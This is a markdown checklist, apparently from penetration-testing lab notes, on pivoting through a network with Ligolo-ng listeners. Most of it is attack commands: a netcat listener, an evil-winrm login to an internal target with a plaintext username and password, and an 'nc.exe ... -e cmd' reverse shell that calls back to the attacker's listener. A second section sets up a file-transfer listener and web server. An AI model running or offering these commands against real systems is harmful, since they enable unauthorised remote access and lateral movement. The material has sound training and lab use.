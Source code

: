 ## Create listener for reverse shell

- [ ] Ensure you are in the right session on your Kali Machine
```
session
```
- Use up/down arrows to move and enter to select

- [ ] On your Kali Machine, create a TCP listening socket on the agent (0.0.0.0:1234) and redirect connections to the 4321 port of the proxy server
```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```

- [ ] Ensure listener is added on your Ligolo server
```
listener_list
```

- [ ] Start nc listener on your Kali Machine
```
nc -nlvp 4321
```

- [ ] Get shell access on any Target Machine in the internal network (Not the machine with the agent)
```
evil-winrm -i 10.10.yyy.69 -u fanclubadmin@heentai -p "Iluv2Dgurlz" 
```

- [ ] On the Target Machine, create a reverse shell connection to the listener on the ligolo agent E.g., `nc.exe`
```
.\nc.exe 10.10.yyy.254 1234 -e cmd
```

## Create listener for file transfer

- [ ] Ensure you are in the right session on your Kali Machine
```
session
```
- Use up/down arrows to move and enter to select

- [ ] On your Kali Machine, create a TCP listening socket on the agent (0.0.0.0:8080) and redirect connections to the 80 port of the proxy server.
```
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 --tcp
```

- [ ] Ensure listener is added on your Ligolo server
```
listener_list
```

- [ ] Start python webserver on your Kali Machine
```
python3 -m http.server 80
```
